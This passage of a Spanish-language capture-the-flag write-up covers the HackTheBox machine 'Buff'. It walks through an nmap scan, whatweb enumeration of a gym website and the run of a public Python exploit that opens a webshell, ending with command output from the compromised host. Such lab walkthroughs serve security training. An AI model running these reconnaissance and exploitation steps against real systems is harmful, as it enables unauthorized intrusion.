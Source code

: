 Luego, se puede revisar qué servicios y versiones está corriendo cada uno exactamente con el siguiente comando:

```bash
nmap -p7680,8080 --min-rate 3000 10.10.10.198   -sVC  -Pn

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
```
{: .nolineno}

## Enumeración

La enumeración se dirigirá al sitio web que se encuentra corriendo en el puerto **8080**. Para comenzar, se hará uso de `whatweb` para ver qué **tecnologías** está utilizando la web.

```bash
whatweb http://10.10.10.198:8080/
http://10.10.10.198:8080/ [200 OK] Apache[2.4.43], Bootstrap, Cookies[sec_session_id], Country[RESERVED][ZZ], Frame, HTML5, HTTPServer[Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6], HttpOnly[sec_session_id], IP[10.10.10.198], JQuery[1.11.0,1.9.1], OpenSSL[1.1.1g], PHP[7.4.6], PasswordField[password], Script[text/JavaScript,text/javascript], Shopify, Title[mrb3n's Bro Hut], Vimeo, X-Powered-By[PHP/7.4.6], X-UA-Compatible[IE=edge]
```
{: .nolineno}

Al acceder al sitio web, se observa una página relacionada con un **gimnasio**.

![web](/buff/web.png)

Al revisar las pestañas de la web, se puede ver la versión que se está utilizando. Por lo tanto, se puede buscar algún **exploit** relacionado con la misma.

![version](/buff/version.png)


Y al buscar el nombre en internet, lo primero que aparece es uno que permite ganar **Ejecución de comandos** dentro del servidor.

![exploit](/buff/exploit.png)


## Explotación

Por lo que se descarga y se ejecuta de la siguiente manera, y de esta forma se gana un **RCE**.

```bash
python2.7 exploit.py  http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun

C:\xampp\htdocs\gym\upload> 
```
{: .nolineno}
